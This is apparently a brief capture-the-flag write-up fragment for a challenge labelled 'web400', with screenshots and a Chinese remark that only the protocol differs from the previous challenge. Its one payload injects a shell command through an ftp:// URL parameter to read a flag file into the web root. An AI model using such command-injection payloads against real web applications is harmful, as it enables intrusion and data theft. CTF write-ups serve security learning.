 # web400
![](vx_images/87665514752166.png)
![](vx_images/530174936713527.png)
较于上一题只需更换一个协议
```
?url=ftp://$(tac fl0g.php)/../../var/www/html/1.txt
```